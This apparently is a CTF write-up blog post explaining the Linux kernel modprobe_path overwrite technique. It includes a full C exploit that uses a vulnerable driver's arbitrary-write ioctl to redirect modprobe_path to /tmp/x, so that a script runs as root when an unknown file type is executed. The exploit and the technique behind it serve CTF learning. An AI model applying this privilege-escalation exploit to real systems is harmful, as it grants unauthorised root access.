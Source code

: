 ```yaml
---
layout: post
title:  "Modprobe overwrite"
date:   2023-01-06
categories: ctf kernelexploit
description: modprobe overwrite - kernel exploitation 
tags: tip-binary ctf
---
```


# What is modprobe?

modprobe intelligently adds or removes a module from the Linux kernel: note that for convenience, there is no difference between _ and - in module names. modprobe looks in the module directory /lib/modules/'uname -r' for all the modules and other files, except for the optional /etc/modprobe.conf configuration file and /etc/modprobe.d directory (see modprobe.conf(5)). modprobe will also use module options specified on the kernel command line in the form of `<module>.<option>`.
src: https://linux.die.net/man/8/modprobe

modprobe can be use to add or remove loadable kernel module to the linux kernel. modprobe is installed on`/sbin/modprobe` or you can check by yourself `cat /proc/sys/kernel/modprobe`. 

# Modprobe overwrite

Since the path of modprobe is stored under the symbol `modprobe_path` in the kernel and in a writeable page, we can get the address by reading `/proc/kallsyms`, after that we can overwrite the address of `modprobe_path` with malicious path which pointed to other file in this case `evil.sh`. Then `evil.sh` will be executed when we execute unkown file type on the system. 

# Exploitation

in this post I will use a CTF challenge from Cyber Jawar Final 2022 called `Nakiri Ayame`, since the challenge require a kernel leak and this can be achieved by leaking the kernel via stacktrace or bruteforce the address I disabled the kaslr to make it esier :v (tawa penuh ke noob-an). Since we have arbitrary address write (AAW) primitive and address of the modprobe_path symbol, We can overwrite `modprobe_path` to malicious shellscript/binary so the binary/shellscript will executed as root

the kernel module will be installed at "/dev/ayame". we can interact with the kernel module with `ioctl()` and value `0x1337`.

<img src="/images/finalcj2022/1.png">

Our goal is to read the flag at `/root/flag` to do that we need to escalate from user to root. Firstly we can open the vuln kernel module 

{% highlight C %}
char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

then we need to get the address of `modprobe_path` symbol, we can use this command to read the address since I disabled the kaslr protection :v 

    ffffffff82445b60 D modprobe_path

Now we can reverse `/tmp/x` and encoded the string as hex, this string will overwrite the modprobe_path value from `/sbin/modprobe` to `/tmp/x`. We overwrite the modprobe_path using arbitrary address write (AAW) primitive to our evil string. 

{% highlight C %}
void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}
{% endhighlight %}

Then we can trigger the bug so kernel will execute our `modprobe_path` with root user. This can be achived by create a shellscritpt/binary at `/tmp/x` since our goal to read `/root/flag` we can create a shellscript to copy the flag to /tmp and make it readable. Then we create unknown file type signature so the system will invoke `modprobe`.

{% highlight C %}
void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}
{% endhighlight %}
 

Full exploit:

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int64_t buf[0x400];
int64_t buf2[0x400];
int fd;

char *VULN_DRV = "/dev/ayame";

void open_dev_vuln(void){
    fd = open(VULN_DRV, O_RDWR);
    if(fd < 0){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

// ffffc90000147ec0
void get_crash(void){
    // int64_t buf[0x400];
    buf2[0] = 0xdeadbeef;
    buf2[1] = &buf;
    buf2[2] = 0x41414141;
    
    for (int i = 0; i < 0x80; ++i){
        buf[i] = 0x4242424242424242;
    }

    ioctl(fd, 0x1337, &buf);
    // return 0;
}

void overwrite_modprobe(void){

    // ffffffff82445b60 D modprobe_path
    unsigned long modprobe_path = 0xffffffff82445b60;
    unsigned long evil_modprobe_path = 0x782f706d742f;


    buf2[0] = modprobe_path; // rdi
    buf2[1] = &evil_modprobe_path; // rsi
    buf2[2] = 0x50; // rdx

    ioctl(fd, 0x1337, &buf2);
}

void trigger_modprobe(void){
    write(1,"[*] Returned to userland, setting up for fake modprobe\n", 56);
    
    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[+] Run unknown file");
    system("/tmp/dummy");

    puts("[+] readflag ");
    system("cat /tmp/flag");

    exit(0);
}


void main(void){
    open_dev_vuln();
    overwrite_modprobe();
    trigger_modprobe();
}

{% endhighlight %}


run the exploit and we get our `/root/flag` flag

<img src="/images/finalcj2022/2.png"/>

I don't cover how to send our exploit to the server since the challenge server already died. You can learn more how to send the exploit from <a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">here</a> kudos to the challenge author.

other useful resource:
<ul>
    <li>
        <a href="https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/"> lkmidas </a>
    </li>
    <li>
        <a href="https://sam4k.com/like-techniques-modprobe_path/"> sam4k </a>
    </li>
</ul>